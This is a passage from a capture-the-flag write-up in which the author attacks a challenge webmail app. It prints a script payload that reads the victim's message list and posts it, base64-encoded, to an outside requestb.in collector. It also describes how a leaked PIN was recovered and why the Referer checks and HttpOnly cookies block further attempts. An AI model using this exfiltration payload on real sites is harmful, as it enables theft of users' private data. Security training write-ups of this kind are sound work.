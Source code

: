 So it seems to be trivial getting the encrypted message: implementing
another CSRF attack let us read the secret message in Mr. Assange's inbox
using appropriate `XMLHttpRequest` calls.

First, get the (read) messages list using this payload (delivery is
the same process as above):

```javascript
<script>
var xhrLeak = new XMLHttpRequest();
xhrLeak.open("GET", "read.php", true);

xhrLeak.addEventListener('load', function() {
    if(xhrLeak.status == 200) {
	var xhrSend = new XMLHttpRequest();
	xhrSend.open("POST", "http://requestb.in/1kwhkwc1", true);
	params  = 'leak=' + encodeURI(window.btoa(xhrLeak.responseText));
	xhrSend.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
	xhrSend.send(params);
    }
}, false);

xhrLeak.send();
</script>
```

Nice, the results are two messages:

| id | Username  | Subject                                               | Sent                |
|----|-----------|-------------------------------------------------------|---------------------|
| 1  | wikileaks | account should be all ready sir, pin is your birthday | 2016-11-18 09:17:08 |
| 2  | darkarmy  | the data                                              | 2016-11-18 09:17:08 |

The first is a serious info leak (never forget that the subject is not encrypted even in PGP mails ;) ),
so we know the PIN: according to the password (and the information found elsewhere) the PIN should be
`03071971`. And the second mail from darkarmy should be the target.

Unfortunately, opening a message (even with the right PIN) can not be done using CSRF attack:
the server always returns "invalid PIN" response. After some debugging (using and attacking owned
accounts) it is clear that the application at the message opening / PIN validating stage implements
a working CSRF protection mechanism: the `Referer` HTTP header is checked, it invalidates
every attempts from URLs containing mismatching message IDs. Because the `Referer` can not
be changed by Javascript (according to security considerations), this attack method will not
work here.

Another trivial CSRF attack should be to steal the `PHPSESSID` session cookie. Probably
it may worked in the old times before Firefox 3, but now. The `PHPSESSID` cookie has the
[HttpOnly](https://www.owasp.org/index.php/HttpOnly) flag set,
so it can not be accessed by Javascript (according to security considerations, also).


### More recon
